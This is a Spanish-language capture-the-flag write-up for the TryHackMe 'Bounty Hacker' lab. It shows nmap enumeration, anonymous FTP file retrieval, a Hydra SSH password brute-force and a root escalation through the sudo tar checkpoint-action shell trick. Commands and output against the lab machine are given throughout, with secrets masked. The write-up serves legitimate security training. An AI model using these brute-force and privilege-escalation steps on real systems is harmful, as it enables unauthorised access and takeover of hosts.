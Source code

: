 ```yaml
---
title: TryHackMe Bounty Hacker Writeup
published: true
---
```


La máquina Bounty Hacker, es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos responder a las preguntas que nos plantean, así como el user.txt y el root.txt

# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
❯ nmap -p- --open --min-rate 5000 -T5 -n -vvv -Pn 10.10.40.43
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 14:34 EDT
Initiating Connect Scan at 14:34
Scanning 10.10.40.43 [65535 ports]
Discovered open port 80/tcp on 10.10.40.43
Discovered open port 21/tcp on 10.10.40.43
Discovered open port 22/tcp on 10.10.40.43
Completed Connect Scan at 14:34, 24.83s elapsed (65535 total ports)
Nmap scan report for 10.10.40.43
Host is up, received user-set (0.087s latency).
Scanned at 2023-03-23 14:34:13 EDT for 25s
Not shown: 56360 filtered tcp ports (no-response), 9172 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.87 seconds
```

El escaneo nos reporta tres puertos abiertos, el 21, el 22 y el 80, así como el servicio que corre en cada uno de ellos.

Ananalizamos la versión y servicio de estos puertos mediante nmap para sacar más información:

```bash
❯ nmap -p21,22,80 -sCV 10.10.40.43 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 14:34 EDT
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.81% done; ETC: 14:35 (0:00:00 remaining)
Nmap scan report for 10.10.40.43
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 230
|_Login successful.
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.22 seconds
```

# []($header-1)Acceso al sistema

El puerto 22 nos reporta que podemos logearnos. Lo intentamos con el usuario anonymous y lo conseguimos.

Podemos ver los archivos y llevarnoslos a nuestro equipo:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||35549|)
ftp: Can't connect to `10.10.40.43:35549': Expiró el tiempo de conexión
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |**********************************************|   418        8.52 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.10 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |**********************************************|    68        5.41 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
```

El archivo task.txt nos reporta un usuario (pregunta de la room en THM). Por otro lado, el archivo locks.txt nos muestra potenciales contraseñas para ese usuario. Teniendo esto, intentaremos conectarnos por SSH (pregunta de la room de THM) con el usuario y alguna de las contraseñas proporcionadas.

```bash
❯ hydra -l lin -P /home/jorge/THM/BountyHacker/nmap/locks.txt ssh://10.10.40.43
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-23 14:52:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.40.43:22/
[22][ssh] host: 10.10.40.43   login: lin   password: ??????????????
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-23 14:52:35

```

Nos reporta una la contraseña (pregunta de la room en THM).

Nos conectamos mediante ssh:

```bash
❯ ssh lin@10.10.40.43
The authenticity of host '10.10.40.43 (10.10.40.43)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.40.43' (ED25519) to the list of known hosts.
lin@10.10.40.43's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

Listamos el conteido y obtenemos user.txt

```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
???????????????????
```

# []($header-1)Escalada de privilegios

Hacemos sudo -l y nos reporta que podemos ejecutar el binario /bin/tar como sudo:

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Nos dirigimos a <a href="https://gtfobins.github.io/gtfobins/tar/"> GTFO bins </a>y ejecutamos el comando proporcionado:
 
> sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Obtenemos acceso al sistema como root. Nos dirigimos a /root y conseguimos root.txt

```bash
lin@bountyhacker:~/Desktop$     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
#ls
root.txt
#cat root.txt
???????????????
```

Muchas gracias por leer este Writeup, espero que te haya gustado mucho!
